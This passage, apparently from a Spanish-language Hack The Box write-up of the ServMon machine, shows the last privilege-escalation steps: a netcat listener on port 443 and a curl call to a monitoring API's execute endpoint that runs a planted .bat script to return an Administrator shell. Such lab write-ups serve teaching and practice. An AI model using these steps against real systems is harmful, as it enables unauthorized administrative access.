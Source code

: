Al final vemos que se creó un tipo **JSON** con información relacionada con nuestro script.

![queryScriptAPI](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/servmon/queryScriptAPI.png)

Ya se ve el comando `execute` y hace referencia al script agregado.

```txt
"execute_url":"https://localhost:8443/api/v1/queries/queesesto/commands/execute"
```

#### > Ponernos en escucha mediante **nc (netcat)**.

Finalmente, poniéndonos en escucha en nuestra máquina por el puerto **443**, que fue el que definimos en el *.bat* obtendremos la Shell.

```bash
$nc -lnvp 443
```

#### > Ejecutar el script con la ayuda de la **API**.

```bash
$curl -k -i -u admin https://localhost:8443/api/v1/queries/queesesto/commands/execute
```

#### > Conseguir la Shell como Administrador.

![ncOKAdmin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/servmon/ncOKAdmin.png)
